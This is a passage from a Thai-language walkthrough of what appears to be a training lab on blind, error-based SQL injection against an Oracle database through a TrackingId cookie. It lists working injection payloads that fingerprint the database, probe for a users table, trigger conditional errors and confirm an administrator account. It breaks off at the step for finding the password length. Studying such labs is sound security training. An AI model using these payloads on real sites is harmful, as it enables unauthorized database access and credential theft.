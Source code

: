 ## ขั้นตอนที่ 2: ยืนยันว่าเป็น SQL Injection จริงๆ

**ทดสอบด้วย valid SQL syntax:**
```
TrackingId=xyz'||(SELECT '')||'
```

ถ้ายังมี error อาจเป็นเพราะประเภทของฐานข้อมูล

**ทดสอบกับ Oracle database (ต้องมีชื่อตาราง):**
```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
→ ถ้า error หายไป แสดงว่าเป็น Oracle database

**ทดสอบด้วยตารางที่ไม่มีจริง:**
```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
→ ถ้าเกิด error แสดงว่าระบบประมวลผล SQL จริงๆ

## ขั้นตอนที่ 3: ทดสอบหาตารางที่มีอยู่

**ทดสอบว่ามีตาราง users หรือไม่:**
```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
→ ถ้าไม่มี error แสดงว่ามีตาราง users

*หมายเหตุ: `WHERE ROWNUM = 1` ใช้เพื่อจำกัดผลลัพธ์ให้เป็นแค่ 1 แถว*

## ขั้นตอนที่ 4: ทดสอบ Conditional Errors

**ทดสอบเงื่อนไขที่เป็นจริง:**
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
→ ควรเกิด error เพราะ 1=1 เป็นจริง

**ทดสอบเงื่อนไขที่เป็นเท็จ:**
```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
→ ไม่ควรเกิด error เพราะ 1=2 เป็นเท็จ

## ขั้นตอนที่ 5: ค้นหา Username

**ตรวจสอบว่ามี administrator หรือไม่:**
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
→ ถ้าเกิด error แสดงว่ามี user ชื่อ administrator

## ขั้นตอนที่ 6: หาความยาวของ Password
